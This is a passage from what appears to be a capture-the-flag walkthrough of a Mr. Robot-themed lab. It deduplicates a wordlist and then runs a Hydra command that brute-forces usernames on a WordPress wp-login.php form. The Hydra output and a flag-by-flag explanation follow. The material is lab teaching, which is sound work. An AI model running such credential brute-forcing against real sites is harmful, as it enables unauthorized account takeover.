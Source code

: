 Here we first sort the file `fsocity.dic`, then, using the `uniq` command, we remove all duplicates from the previous output using a pipe `|`. You’ll see that the number of words will drastically decrease from 858,160 lines to 11,451—a huge gain!

This doesn’t affect the brute force’s result but only its performance. We don’t want our brute force to try 846,709 credentials twice (or more!).

Anyway, let’s launch the brute force now to check if we can retrieve a username. If we do, we should do the same for the password.

```bash
hydra -L fsocity_uniq.dic -p test target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 64   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-03 12:07:54
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:11452/p:1), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username
[STATUS] 5435.00 tries/min, 5435 tries in 00:01h, 6017 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: test
[80][http-post-form] host: target   login: ELLIOT   password: test
[80][http-post-form] host: target   login: Elliot   password: test
[STATUS] 5516.50 tries/min, 11033 tries in 00:02h, 419 to do in 00:01h, 64 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

**Command explanation:**

- `-L`: Flag used to specify a dictionary file of usernames. This performs a brute force on the username.
- `-p`: Flag used to specify a static password. The password will not change.
- `target`: Target IP address or domain name.
- `http-post-form`: Module used to perform the brute force. We try to connect through an HTTP POST request.
- `-t 64`: Flag used to specify a number of threads (brute force parallelization). This performs more tries per task.

**Note: The part `"/wp-login.php:log=^USER^&pwd=^PASS^...` might be scary but it’s very simple: it follows the syntax `"<url>:<post_data>:<failure_string>"`.**

- `<url>`: The path to the login page. Here, it is `/wp-login.php`.
- `<post_data>`: The POST data we want to send. This is the line from the previous Burp Suite screenshot (see below). Note that we’ve replaced the static values with the Hydra variables using a pair of `^`.
- `<failure_string>`: The string that appears in the response of a failed login attempt. Here, we’ll go with `F=Invalid username`.
